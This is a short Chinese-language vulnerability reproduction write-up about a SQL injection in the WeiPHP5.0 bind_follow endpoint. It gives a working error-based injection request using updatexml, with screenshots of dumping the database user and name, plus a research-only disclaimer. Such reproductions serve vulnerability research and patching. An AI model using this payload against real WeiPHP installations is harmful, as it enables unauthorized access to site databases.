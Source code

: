 # WeiPHP5.0 SQL注入漏洞2

本文仅用于技术讨论与研究，文中的实现方法切勿应用在任何违法场景。如因涉嫌违法造成的一切不良影响，本文作者概不负责。

## 漏洞描述

`WeiPHP5.0`是在2019年停止更新的一个系统，漏洞挺多的，跟着复现分析一下，前面分析了一处由于拼接造成的注入，这里复现一下 `WeiPHP5.0`的另一个`SQL`注入漏洞

## 漏洞影响

`WeiPHP5.0`最新版

可以据此下载

https://www.weiphp.cn/doc/download_source_installation.html

## 漏洞复现

访问如下链接并抓包

```php
/index.php/home/Index/bind_follow
publicid=1&is_ajax=1&uid[0]=exp&uid[1]=)%20and%20updatexml(1,concat(0x7e,md5(%271%27),0x7e),1)--+
```

`post`或者 `get`都可以，这里开了调试模式，因此可以使用报错注入

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839360763-e1b05583-a112-4ff3-bf03-6e571b9450f5.png)

爆用户名

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839676508-25cdbda5-2cad-4080-b45f-9e94302caf65.png)

爆数据库

![img](https://cdn.nlark.com/yuque/0/2022/png/22586461/1651839709664-0e27aa69-95a8-467c-91c4-7aeae4325a1c.png)

## 总结

之前对于 `thinkphp`开发的系统很少去弄 `SQL`相关的分析，因为觉得 `thinkphp`可能做得比较完美了，但经过这一次的分析，觉得还是很有开发的潜力。

## 参考链接

- `http://wiki.peiqi.tech/wiki/cms/WeiPHP/WeiPHP5.0%20bind_follow%20SQL%E6%B3%A8%E5%85%A5%E6%BC%8F%E6%B4%9E.html`



`github` 链接：`https://github.com/N0puple/vulPOC`

想要获取更多资讯，或者获取文中环境可以关注公众号 “安全漏洞复现”，回复 “漏洞环境”

